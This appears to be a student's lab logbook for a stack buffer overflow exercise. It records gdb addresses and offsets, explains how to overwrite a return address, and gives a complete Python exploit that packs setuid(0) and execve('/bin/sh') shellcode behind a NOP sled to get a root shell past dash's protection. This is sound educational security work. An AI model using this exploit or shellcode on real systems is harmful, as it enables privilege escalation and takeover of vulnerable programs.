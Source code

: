 # Log Book 5

## Task 1

Both versions of the shellcode (32 and 64 bit) spawn a shell. We can run
commands on this shell as usual, but deleting characters doesn't given visual
feed. Deleting a char from the command line deletes it fromm the buffer, but it
remains on screen.

The environment of these shells includes both a PWD and OLDPWD:. It also
includes a SHLVL variable. No PATH environment variabl is defined.

![task 1 pt.1](./LOGBOOK5_img/task_1.png)

![task 1 pt.2](./LOGBOOK5_img/task_1_2.png)

## Task 2

There are 4 executable with slightly different configs (**DBUF_SIZE**):

- L1 - 100
- L2 - 160
- L3 - 200
- L4 - 10

We'll use L1 for task 3.

## Task 3

This executable was compiled for 32-bit and, using the instructions in the lab
pdf, we obtained the following information concerning the address of the buffer
and the frame pointer.

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaa8

gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca3c
```

### How to attack

We'll place our shell code in a region above the return address location and
change the return address to point to that location.

### Stack pointer

The frame pointer is pointing to the address of the **last frame pointer.**. The
last frame pointer is a 32-bit value: 4 byte. With this, we know the stack
pointer, **sp**, is at `sp + 4 = 0xffffcaa8 + 4 = 0xffffcaac`.

### The attack

We have a 517 byte buffer to use. We'll start by filling it with **NOPs**, and
then place our shellcode at the end of this buffer. These **NOPs** will be
helpful later since we can just point the return address no anywhere in this
region and the shellcode will be eventually reached (less precision required).

We can calculate that the offset between the buffer address and the frame
pointer, `fp - buf_addr`, is **108**.

With all of these in mind, we can place the address of the start of the
shellcode as the return address: `buf_addr + start`.

When the function attempts to return, it will jump to the shellcode and spawn a
shell.

### Exploit code

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a root shell. By including the assembly code for the
`setuid(0)` system call before the shellcode, we were able to spawn a root shell
on dash, bypassing its mitigation.

![task 3](./LOGBOOK5_img/task_3.png)
